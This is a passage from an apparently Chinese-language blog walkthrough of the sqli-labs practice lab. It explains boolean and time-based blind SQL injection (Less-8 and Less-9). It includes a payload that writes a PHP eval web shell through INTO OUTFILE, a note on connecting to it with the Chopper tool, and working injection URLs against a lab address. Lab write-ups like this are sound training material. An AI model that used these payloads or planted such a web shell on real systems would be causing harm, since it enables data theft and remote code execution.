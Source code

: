 这个是写3到123.txt中，但是在我却没发现这个文件。。。估计是这个写的权限没了，，，

如果可以的话，就直接写一句话了：union select 1,2,"<? php  @eval($_post['mima']) ?>" into outfile "文件路径"%23

然后再使用菜刀进行连接即可！

##### **Less - 8 布尔型单引号GET盲注 

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less8_01.png" />

直接加 ‘ 试一下什么都没有了。。。  使用order by 语句也没有回显。。。

盲注的话，主要分为bool型和时间性，通常涉及到这几个函数:

length(str)：返回字符串str的长度

substr(str,pos,len)：将str从pos位置开始截取len长度的字符返回，需要注意的是这里pos的是从1开始的

mid(str,pos,len)：和substr()类似

ascii(str)：返回字符串str最左边的acsii码（即首字母的acsii码）

ord()：同上，返回acsii码

left(str,len)：对字符串str左截取len长度

right(str,len)：对字符串str右截取len长度

if(a,b,c)：条件判断，如果a为true，返回b，否则返回c

盲注有个固定式：and ascii(substr(A,1,1))>B，或者and if(ascii(substr(A,1,1))>B,1,0)，这里的A通常是一个select语句，B则是字符或数字的ascii码，他们的中心思想都是通过substr等截取函数以二分法的形式查询逐个匹配想要的信息，这个过程通常都很耗时，所以建议直接写个盲注脚本来跑

如果使用sqlmap的话，速度其实并不是很快

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less8_02.png" />

还是使用手工试一下吧（工具都不快，手工更慢了）：

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less8_03.png" />

http://172.16.60.103/sql-labs/Less-8/?id=1' and (ascii(substr((select database()),1,1)))  < 170 %23

显示you are in。。。 证明这个就是正确的

如果将值换为20的话，到时候就不会显示you are in。。。了，证明就是大于大于20小于170了。

然后就是小于115，这个时候是没有回显的，对照ascii表，证明了这个值就是116，也就是s

还是直接从网上找到了脚本，跑一下比较合适（sqlmap也行）



**Less-9 基于时间的GET单引号盲注** 

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less9_01.png" />

时间型盲注和bool型盲注应用场景不同之处在报错的返回上，从less-8我们知道，输入合法时他会返回正常页面“You are in......”，而非法输入时他没有返回任何东西，于是，我们可以根据这个特点跑盲注，通过他不同的返回页面来判断我们匹配的字符是否正确，而在less-9中合法输入与非合法输入它都返回一个页面，就是You are in.....这样，我们就不能根据他页面的返回内容来判断匹配结果了，因此我们需要用延时函数sleep()对两种输入进行区分，可以构造如下语句：

http://172.16.60.103/sql-labs/Less-9/?id=1'and if(ascii(substr((select database()),1,1)) >115,0,sleep(5))%23
